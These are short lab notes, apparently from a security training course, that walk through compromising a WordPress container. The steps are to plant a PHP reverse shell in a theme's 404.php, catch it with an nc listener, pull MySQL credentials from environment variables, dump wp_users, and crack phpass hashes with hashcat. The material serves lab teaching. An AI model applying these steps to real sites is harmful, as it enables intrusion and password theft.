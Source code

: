 ## Cryptographic Failures (WordPress Lab)

- ⚠️ Best to watch the video — this is a hands-on lab.
    

---

### 1. Exploiting the Theme

- Edit the `404.php` file in WordPress 2021 theme
    
- Add a PHP reverse shell (e.g., PentestMonkey)
    
- Listener:
    
    ```bash
    nc -nvlp 8000
    ```
    
- Get your IP via:
    
    ```bash
    ip a
    ```
    

---

### 2. Reverse Shell Access

- Once triggered, you’ll get a shell on the container
    
- Access WordPress files like `wp-config.php`
    
- Extract MySQL credentials (usually from environment variables):
    
    ```bash
    env
    ```
    

---

### 3. MySQL Access

```bash
mysql -u wordpress -h db -p
# password as shown in the env variables
```

Example SQL commands:

```sql
use wordpress;
show tables;
select * from wp_users;
exit;
```

---

### 4. Hash Cracking

- WordPress stores **hashed passwords**
    
- Dumped user hashes (like `password123`) use the **phpass** algorithm
    

Use Hashcat:

```bash
# Mode 400 is phpass
hashcat -a 0 -m 400 will.hash ~/usr/share/..../best1050.txt
```

---

### Why This is a Crypto Failure

- Weak password
- Weak hash format